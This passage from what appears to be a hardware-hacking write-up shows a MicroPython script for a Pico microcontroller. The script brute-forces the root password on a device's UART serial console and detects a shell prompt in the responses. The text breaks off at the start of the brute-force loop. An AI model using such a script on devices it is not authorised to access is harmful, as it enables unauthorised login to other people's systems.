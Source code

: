I was also feeling kind of burnt at this point, so the thought of letting this go for a few days while still technically making progress was very appealing to me.  So I let it start chugging on a modified LLM script that utilzied the previously shown function.
```python
import machine
import time
from machine import Pin

led = Pin("LED", Pin.OUT)

# Configure UART0 (GPIO 0 = TX, GPIO 1 = RX) at 115200 baud
uart = machine.UART(0, 115200, tx=0, rx=1)
uart.init(115200, bits=8, parity=None, stop=1)

# Lists to brute force
usernames = ['root']

def try_login(username, password):
    time.sleep(0.1)
    attempts = 0
    while not uart.any():
        uart.write('\n'.encode())
        time.sleep(0.1)
    line = uart.read().decode('utf-8').strip()
    print(line)
    while 'oc845ffa18d login:' not in line.lower():
        print(line)
        uart.write('\n'.encode())
        time.sleep(0.1)
        while not uart.any():
            time.sleep(0.1)
        line = uart.read().decode('utf-8').strip()
    uart.write((username + '\n').encode())
    time.sleep(0.5)
    while not uart.any():
        time.sleep(0.1)
    line = uart.read().decode('utf-8').strip()
    print(line)
    while 'password:' not in line.lower():
        time.sleep(0.1)
        while not uart.any():
            time.sleep(0.1)
        line = uart.read().decode('utf-8').strip()
        print(line)
    uart.write((password + '\n').encode())
    led.off()
    time.sleep(4)
    led.on()
    while not uart.any():
        time.sleep(0.1)
    response = uart.read().decode('utf-8')
    print("Received response: ")
    print(response)
    print("End attempt")
    if '#' in response or '$' in response or 'sh:' in response:  # Shell prompt indicators
        return True, response
    else:
        return False, response

    return False, "No login prompt found"

# Brute force loop
for username in usernames:
    for id in range(0,0xffff):
```